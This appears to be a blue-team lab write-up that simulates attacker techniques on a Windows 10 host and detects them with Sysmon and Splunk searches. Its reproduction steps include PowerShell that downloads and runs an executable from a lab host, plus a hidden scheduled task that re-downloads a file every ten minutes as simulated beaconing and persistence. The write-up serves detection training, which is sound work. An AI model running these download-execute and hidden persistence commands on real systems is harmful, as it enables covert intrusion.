

<style>
img {
  border: 0px solid transparent;
  height: auto;
}

img:hover {
  transform: scale(1.2);
  border: 2px solid #007bff; /* Blue border on hover */
  border-radius: 10px;
}
</style>

## Summary

Built a full DFIR Attack–Defense Lab using Kali, Windows 10, Splunk, and Sysmon to simulate adversary TTPs (ingress, execution, discovery, persistence, beaconing) and perform log-based detection and threat hunting.”

---

# Lab Architecture

* **Attacker (Kali)** — `192.168.1.6` — Apache host, Splunk Enterprise indexer, deployment server
* **Victim (Windows 10)** — `192.168.1.7` — Sysmon (sysmonconfig.xml), Splunk Universal Forwarder
* Files served: `/AGREED_WARLOCK.exe`, `/setup_client.exe`


*Lab Diagram*

---

# Preparation & Installation

## Kali (Splunk Enterprise)

```bash
# Debian/Ubuntu-style install (example filename)
sudo dpkg -i splunk-10.0.1-c486717c322b-linux-amd64.deb
cd /opt/splunk/bin/
sudo ./splunk start --accept-license
# Allow ports
sudo ufw allow 9997
sudo ufw allow 8089
```

## Windows 10 (Sysmon + Universal Forwarder)

1. Download Sysmon and the sysmonconfig.xml (Olaf Hartong's Sysmon Modular).
2. Install Sysmon:
```powershell
# From the folder containing Sysmon64.exe and sysmonconfig.xml
.\Sysmon64.exe -i .\sysmonconfig.xml
```

3. Install Splunk Universal Forwarder and configure `inputs.conf`:
```ini
[WinEventLog://Microsoft-Windows-Sysmon/Operational]
disabled = false
renderXml = true
source = XmlWinEventLog:Microsoft-Windows-Sysmon/Operational
index = main
```

*input config*

---

## Simulated TTPs (what we executed)

* **T1105** — Ingress / Download (HTTP GET)
* **T1204 / T1218** — Execution evidence (setup_client.exe, rundll32, powershell)
* **T1071** — Beaconing (Scheduled Task using Invoke-WebRequest)
* **T1082 / T1083** — Discovery (ipconfig, systeminfo, net view)
* **T1053.005** — Scheduled Task persistence
* **T1569 / T1021** — Service creation/removal (EventID 7045)

---

## Reproduction Steps (safe)

> Run these steps in an isolated lab. All binaries used are harmless test files.
Ideal for blue-team training, SOC tuning, and DFIR practice.
{: .prompt-danger }

1. Host `setup_client.exe` and `AGREED_WARLOCK.exe` on Kali apache (`/var/www/html/`).
2. From Windows (victim), download the file via `Invoke-WebRequest` or a browser.
```powershell
Invoke-WebRequest -Uri "http://192.168.1.6/setup_client.exe" -OutFile "$env:TEMP\setup_client.exe"
Start-Process "$env:TEMP\setup_client.exe"
```

3. Create a scheduled task to simulate beacon cadence:
```powershell
$action = New-ScheduledTaskAction -Execute 'powershell.exe' -Argument '-NoProfile -WindowStyle Hidden -Command "Invoke-WebRequest -Uri http://192.168.1.6/AGREED_WARLOCK.exe -OutFile $env:TEMP\AGREED_WARLOCK.exe"'
$trigger = New-ScheduledTaskTrigger -Once -At (Get-Date).AddMinutes(1) -RepetitionInterval (New-TimeSpan -Minutes 10) -RepetitionDuration (New-TimeSpan -Days 365)
Register-ScheduledTask -TaskName 'ClientBeacon' -Action $action -Trigger $trigger -RunLevel Highest -Force
```
4. Run discovery commands to noise and generate Sysmon logs:
```powershell
ipconfig /all
systeminfo
net view
```
5. Create and remove a test service to generate EventID 7045 (use a benign binary path):
```powershell
New-Service -Name 'TestService' -BinaryPathName 'C:\Windows\System32\svchost.exe' -DisplayName 'Test Service' -StartupType Manual
# Then remove:
Remove-Service -Name 'TestService'
```

---

# Evidence Collected (example artifacts)

* Sysmon EventID 1: Process Create — `setup_client.exe`, `powershell.exe`, `rundll32.exe`
* Sysmon EventID 3: Network Connect — HTTP GET to `192.168.1.6`
* Windows EventID 7045: Service install
* TaskScheduler logs: Task registration for `ClientBeacon`

---

## Splunk — Searches

> Replace `index=main` with your index name if different.

**1) Find initial downloads (Network connections):**


*ip*

```splunk
index=main sourcetype=XmlWinEventLog:Microsoft-Windows-Sysmon/Operational EventCode=3
| where DestIp="192.168.1.6" OR dest="192.168.1.6"
```

**2) Process creates of interest (PowerShell, rundll32, setup_client.exe):**

*rundll32*

```splunk
index=main sourcetype=XmlWinEventLog:Microsoft-Windows-Sysmon/Operational EventCode=1
| search ProcessName=("powershell.exe" OR "rundll32.exe" OR "setup_client.exe")
```

**3) Scheduled task creation & repetition detection:**

```splunk
index=main sourcetype=XmlWinEventLog:Microsoft-Windows-Sysmon/Operational EventCode=1 CommandLine="*schtasks*" OR EventCode=4698
```

**4) Beacon-like periodic HTTP GETs:**

```splunk
index=main sourcetype=XmlWinEventLog:Microsoft-Windows-Sysmon/Operational EventCode=3
| stats count by _time, Computer, DestinationIp, DestinationPort, ProcessName
| where DestinationIp="192.168.1.6" AND count>5
```

---

# Findings (Q&A)

* **Initial file executed:** `setup_client.exe`
* **JavaScript file used for initial access:** `Form_W_9_Ver-460102.js` (phishing lure)
* **Domain/IP hosting beacon file:** `192.168.1.6` (logged at 2025-10-18 19:35:12.000)
* **Process executing suspicious commands:** `powershell.exe`


---

# Notes & Recommendations

1. Use defensive detections for uncommon child->powershell chains and signed binary proxy executions (rundll32).
2. Monitor scheduled tasks creation (event 4698 / task scheduler operational logs).
3. Create a Splunk alert for repeated outbound HTTP connections to rare/unknown hosts.


